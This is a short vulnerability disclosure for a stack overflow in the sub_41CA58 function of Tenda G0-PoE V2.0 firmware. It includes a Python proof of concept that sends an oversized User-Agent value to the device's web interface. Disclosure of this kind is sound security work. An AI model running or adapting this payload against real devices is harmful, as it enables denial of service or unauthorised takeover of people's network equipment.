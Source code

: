 # Tenda G0-PoE V2.0 sub_41CA58
### Overview
vendor: Tenda

product: G0-PoE V2.0

version: V16.01.11.6(3657)

type: Stack Overflow
### Vulnerability Description
Tenda G0-PoE V2.0 V16.01.11.6(3657) were discovered to contain a stack overflow in the sub_41CA58 function.This device has an unauthorized RCE vulnerability. Attackers can obtain root privileges without logging in.
### Vulnerability details
In function sub_41CA58 line 19, it reads in a user-provided parameter `User-Agent`, and the variable `v5` is passed to the `memcpy` function without any length check, which may overflow the stack-based buffer `v6`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G0poe-1-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/'
payload = {
    "User-Agent": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
